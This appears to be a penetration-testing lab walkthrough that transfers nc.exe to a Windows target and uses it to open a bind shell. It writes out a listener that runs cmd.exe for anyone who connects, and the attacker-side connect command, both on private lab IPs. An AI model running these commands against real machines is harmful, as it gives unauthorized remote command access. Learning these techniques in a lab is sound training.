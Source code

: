Target IP Address: 10.4.21.221

Kali Linux IP: 10.10.3.2

We're primarily focused on utilizing Netcat to set up bind shells and reverse shells.

The first step, that we need to perform is we need to transfer over nc.exe onto the Windows system.

I'll head over to the directory that contains nc.exe on the Kali Linux system.

```
cd /usr/share/windows-binaries
ls -al
```

Set up a web server with the Python module SimpleHTTPServer.

```
python -m SimpleHTTPServer 80
```

Head over to the Windows system. In order to transfer it, we can use the technique we used in the previous video where we downloaded it with a utility called certutil. 

```
http://10.10.3.2/
```

Download nc.exe.

```
C:\Users\Administrator>cd Downloads
C:\Users\Administrator\Downloads>dir
```

Let's assume that we are following the flow that is recommended by this lab where the Kali Linux system is the attacker and the target system is the system running Windows.

```
cd ~
```

In order to set up a bind shell, the target system needs to have a Netcat listener set up. And not only that, it needs to be configured to execute cmd.exe.

`-e prog`: inbound program to exec. 要执行的入站程序。

We'll set up a Netcat listener on the target system. However, because we want to obtain a bind shell and we want to be able to execute commands on the target system, we will execute cmd.exe. What this means is that, whenever a client connects to this particular listener, cmd.exe will be executed and the attacker system will be provided with a command shell or a Command Prompt session.

```
nc.exe -nvlp 1234 -e cmd.exe
```

We have set up the listener, so we'll head over to the attacker system.

If we want to connect to a particular target on a particular port.

`-nv`: no DNS resolution and verbose output.

```
nc -nv 10.4.21.221 1234
```
